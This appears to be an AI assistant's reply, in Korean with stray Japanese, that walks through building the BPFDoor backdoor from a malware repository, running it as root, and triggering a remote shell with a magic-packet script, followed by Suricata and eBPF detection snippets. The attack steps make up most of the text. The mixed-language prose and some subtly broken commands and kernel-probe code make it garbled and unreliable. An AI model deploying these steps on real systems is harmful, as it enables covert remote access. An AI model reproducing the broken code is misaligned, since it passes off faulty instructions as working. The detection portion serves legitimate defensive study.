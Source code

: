 아래는 malwaredevil/BPFDoor-Backdoor 리포지토리를 이용한 PoC(Proof-of-Concept) 구성 예시입니다.  
→ **격리된 테스트 VM**(예: VirtualBox/KVM) 또는 Docker 컨테이너에서만 실행하세요!  

---

## 1. 테스트 환경 준비

- **OS**: Ubuntu 22.04 (또는 Rocky Linux 9)
- **필수 패키지**:
  ```bash
  sudo apt-get update
  sudo apt-get install -y build-essential git python3 python3-pip bpfcc-tools
  ```
- **네트워크**: VM은ホストオンリーまたは内部ブリッジで外部アクセスを遮断

---

## 2. 백도어 소스 클론 & 빌드

```bash
git clone https://github.com/malwaredevil/BPFDoor-Backdoor.git
cd BPFDoor-Backdoor
make
# → 결과물: ./bpfdoor
```

---

## 3. 백도어 실행 (Victim)

```bash
# 루트 권한으로 실행
sudo ./bpfdoor \
  --listen-ip 0.0.0.0 \   # 수신할 IP
  --listen-port 9999      # 매직 패킷 포트
```

> 이 상태로 대기하면, 지정한 UDP 포트로 “magic sequence”를 받았을 때 쉘(Back-Connect)을 열きます。

---

## 4. 매직 패킷 송신 (Attacker)

```bash
# send_magic.py
import socket

MAGIC = b'MAGICPING'          # 리포지토리 코드에 맞춰  
TARGET = ("192.168.56.101", 9999)  # Victim IP:Port

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(MAGIC, TARGET)
print("sent magic packet")
```

```bash
python3 send_magic.py
```

→ Victim 쪽에서 `nc` 등으로 쉘이 뜨는지 확인

---

## 5. 탐지 시나리오

### 5.1 Suricata 룰

```yaml
# /etc/suricata/rules/bpfdoor.rules
alert udp any any -> any 9999 \
  (msg:"[PoC] BPFDoor magic packet"; content:"MAGICPING"; sid:9000001; rev:1;)
```

```bash
sudo suricata -c /etc/suricata/suricata.yaml --af-packet any -S /etc/suricata/rules/bpfdoor.rules
```

---

### 5.2 eBPF 실시간 모니터링 (bcc 사용)

```python
# detect_bpfdoor.py
from bcc import BPF

prog = r"""
int kprobe__sys_recvfrom(struct pt_regs *ctx) {
    // buf 포인터는 PT_REGS_PARM2(ctx)
    char buf[8];
    bpf_probe_read(&buf, sizeof(buf), (void *)PT_REGS_PARM2(ctx));
    // "MAGICPIN" 검사 (마지막 G는 다음 바이트)
    if (buf[0]=='M' && buf[1]=='A' && buf[2]=='G' && buf[3]=='I'
     && buf[4]=='C' && buf[5]=='P' && buf[6]=='I' && buf[7]=='N') {
        bpf_trace_printk(">> BPFDoor trigger detected\\n");
    }
    return 0;
}
"""
b = BPF(text=prog)
print("Tracing recvfrom() for magic… Ctrl-C to exit")
b.trace_print()
```

```bash
sudo python3 detect_bpfdoor.py
```

→ magic 패킷을 받을 때마다 `>> BPFDoor trigger detected` 로그 출력

---

## 6. 전체 PoC 흐름

1. **Victim VM** 에 Suricata (또는 eBPF 스크립트)로 모니터링 시작  
2. **Victim VM** 에서 `sudo ./bpfdoor` 실행  
3. **Attacker VM** 에서 `python3 send_magic.py` 실행  
4. Suricata 경고 발생 또는 eBPF 로그 확인 → 공격 탐지  

---

이 구성을 통해, **실제 BPFDoor와 유사한 동작**을 재현하면서도  
- 탐지 룰 검증  
- eBPF 기반 포렌식  
- 네트워크/프로세스 모니터링 기법  

등을 **안전하게** 연습하실 수 있습니다.  
必要に応じて Vagrantfile や Dockerfile、pcap 샘플などもご要望ください。
